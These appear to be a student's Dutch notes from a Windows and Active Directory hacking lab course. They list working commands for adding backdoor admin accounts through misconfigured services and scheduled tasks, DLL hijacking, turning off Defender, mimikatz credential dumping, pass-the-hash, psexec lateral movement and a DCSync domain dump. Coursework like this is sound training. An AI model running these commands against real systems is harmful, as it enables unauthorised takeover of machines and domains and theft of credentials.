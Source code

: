  ## Week 1 
Kickoff
## Week 2
```bat
net user USERNAME L3tm3!n /add
net localgroup Administrators USERNAME /add
```

1. Kijken welke programma's al op de pc staan
	1. Ik kan cmd openen
	2. Powershell is geblockt door admin
2. In Program Files   
	1. File Permissions Service gevonden in Program Files
	2. Insecure Registry Service gevonden in Program Files
	3. RUXIM? uitzoeken wat dit is
	4. DLL Hijack Service
	5. DACL Service
3. In Program Files (x86):
	1. Tweaking.com ??
	2. Remote Mouse (heb je admin rechten voor nodig)
  
2. Kijken welke services draaien met welke priviliges
3. Welke users?
	1. Administrators
	2. Normaluser
	3. Public
4. **SCHEDULED TASKS:** In task migrated staat een pinger file. Die wordt getriggerd bij login. Er wordt een batch script uitgevoerd, met het pad C:\\temp\\pinger.bat. Dat batch script kan je aanpassen. 
	1. `C:\Windows\Tasks Migrated\`
	2. Ik zie daar een pinger file, daarin staat dat `C:\temp\pinger.bat` wordt aangeroepen bij een logon. Maak een backup van origineel, een maak een nieuwe pinger.bat
	3. Zet dit erin: `cmd /c net user backdoor L3tm3!n /add && cmd /c net localgroup Administrators backdoor /add`
	4. Open cmd en check of de user is aangemaakt met `net local users` en `net localgroup Administrators`
5. Rechtsonder, remote mouse staat aan. Daarin kan je op change klikken, dat opent een verkenner. Daarin kan je cmd.exe openen en heb je een admin shell.
	1. rafael:hacker123!
6. In services was een insecure regedit service
	1. Je kan de ImagePath aanpassen via regedit. Navigeer na HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\regcvs en pas de ImagePath aan naar een juist commando. Voer dan de service opnieuw uit.unquoted
	2. Verifieer door een shell te open en `net users` uit te voeren in cmd
7. Unquoted Path service
	1. Heb via softonic een bat to exe converter gedownload, vervolgens die Common.exe genoemd en in C:\\Program Files\\Unquoted Path Service geplaatst. Awesome. Batchscript is gewoon dezelfde commands als hiervoor.

## Week 3

```bash
cmd /c net user backdoor L3tm3!n /add && net localgroup Administrators backdoor /add
```

1. Met sysinternals sweet kijken naar welke rechten de normaluser heeft, 
	1. `C:\Tools\SysinternalsSuite\accesschk.exe -uwvc "normaluser"`
	2. Hieruit blijkt dat je CHANGE_SERVICE_CONFIG priviliges hebt. 
	3. Verander de service als volgt: `sc config daclsvc binPath="cmd /c net user backdoor L3tm3!n /add && net localgroup Administrators backdoor /add"`
	4. Check of het is gelukt met `net users` en `net localgroup Administrators`
      
2. DEFENDER UITZETTEN ALS LOCAL ADMIN:
	1. Open Windows Security -> Virus en Threat protection -> Manage Settings ->
	2. Login door als username `.\backdoorusername` en je wachtwoord in te voeren
	3. Add or remove exclusions
	4. Voeg de hele C: schijf toe als exclusion
	   
3. mimikatz
	1. Start mimikatz `C:\Tools\[mimikatz]\x64\mimikatz.exe`
	2. Voer dit in `privilege::debug`
	3. Check login-pogingen: `sekurlsa::logonpasswords`
		1. Onder Admin, zie je bij de NTLM hash `af99...` staan. Vaak gebruiken mensen dezelfde wachtwoorden. Kan je die gebruiken om in te loggen.
		2. Commando: `sekurlsa::pth /user:Administrator /ntlm:[HASH] /domain:example.local /run:cmd.exe
		3. Als je `whoami` doet, dan krijg je je localuser te zien, je eigen admin user. MAAR: je hebt wel zijn sleutels. Je bent nog steeds jezelf, maar je hebt zijn privileges. Weet niet hoe ik dit kan verifiëren. Aan chatGPT vragen.
`
4. System privileges krijgen (VOOR ALS JE GEEN DEBUG PRIVILEGE KAN DOEN IN MIMIKATZ)
	1. Open cmd als admin
	2. Ga naar sysinternals `C:\Tools\Sysinternals`
	3. Run `psexec -s -i cmd`
	4. In de shell die opent, doe `whoami` .
	5. Als het goed is ben je een system user. Nu kan je wel mimikatz privilege::debug uitvoeren als het goed is. 


## Week 4-5

DLL HIJACK SERVICE
1. `sc create <servicename> binpath=<path\to\service.exe` 
2. Open procmon (Process Monitor)
3. Voeg filters toe:
	1. `Process Name is dllhijackservice.exe`
	2. `Result is NAME NOT FOUND`
	3. `Path ends with .dll`
4. Druk op capture in procmon
5. Bovenaan zie je een pad naar een dll in dezelfde directory als de service.exe. Je hebt geen macht over de Program Files directory. Windows kijkt naar alles in Path. Welk path heb je wel write permissions over? 
	1. Check het met `echo %path%`
	2. Daar zag ik `C:\temp` staan.
6. Kan je een dll maken met jouw commands?
	1. Zelf dacht ik aan gewoon ChatGPT C code laten maken. Compilen en klaar. Ik heb de C code van BrightSpace gepakt. 
	2. Code: 
	   ![[Pasted image 20240923141018.png]]
	3. Gecompiled met GCC: `gcc code.c -shared -o hijackme.dll`
	4. De dll in C:\Temp gezet. 

Je kan informatie krijgen als normale user:
1. `net user /domain`
2. `net group /domain`
3. `net group "domain admins /domain
4. Ga naar je sysinternals directory
	1. Gebruik angry ip-scanner om te kijken wat de ip van de admin is
	2. `psloggedon \\192.168.56.30` (werkt niet??)

Haal nu weer de hashes op via mimikatz (dus defender uitschakelen), en hetzelfde doen. Doe de pass the hash, zoals vorige week. 
1. Verifieer in je nieuwe shell: `dir \\192.168.56.30\c$`
2. Ga naar je sysinternals folder lokaal
3. Doe dit commando: `psexec /accepteula -r random_naam \\192.168.56.30 cmd` en wacht eventjes.
4. Je ziet de Windows hello message, dus een nieuwe shell is geopend
5. Doe dit commando: `hostname`
	1. Als het goed is, zie je `win10adm`. 
6. Disable Defender:
	1. `powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $false"`
	2. `reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /f`
	3. `powershell -Command "Remove-MpPreference -ExclusionPath 'C:\'"`
7. Copy mimikatz naar win10admin:
	1. `mkdir C:\tmp`
	2. `powershell -Command "Add-MpPreference -ExclusionPath 'C:\tmp'
	3. Valideer:  `powershell -Command "Get-MpPreference`
	4. `curl -L -o jippie.zip https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919/mimikatz_trunk.zip`
	5. `powershell -command "Expand-Archive -Path mimikatz.zip -DestinationPath C:\Path\To\Extract"`
8. Of:
	1. Kopieer C drive van client naar x drive van admin: 
	   `net use X: \\win10client\C$ /user:win10client\rafael L3tm3!n`
9. Ga je met mimikatz nogmaals een pass the hash doen.
	1. open mimikatz
	2. `privilege::debug`
	3. `sekurlsa::logonpasswords`
	4. Je zou domad ergens moeten vinden, maar helaas. 
	5. Doe het commando met de hash die je hebt gevonden (let op username en domain) `sekurlsa::pth /user:domad /ntlm:cff48581d56085119bddffacfae51aeb /domain:adlab.local /run:cmd.exe`
	6. Verifieer: `dir 192.168.56.10\c$`
10. Open mimikatz weer lokaal, in de shell die is geopend na de mimikatz command met de hash van de server. Je hebt dus een lokale shell met rechten van de server. 
	1. `cd C:\tools\mimikatz\x64`
	2. Open mimikatz: `mimikatz.exe`
	3. in mimikatz: `privilege::debug`
	4. `lsadump::dcsync /domain:adlab.local /all /csv`\`
	5. Nu heb je een voldoende!!!
	   


## Week 6 
hele domain vinden: rechter muisklik op 'this pc', en dan properties, en device name, dan zie je win10client adlab local bla bla. 

## Week 8 ???
Toetsvragen: 

### BIJ SKILLSTEST:
Een van de verschillende manieren zal er komen, dus of scheduled task, dus of een service, dus of user permissions checken. 
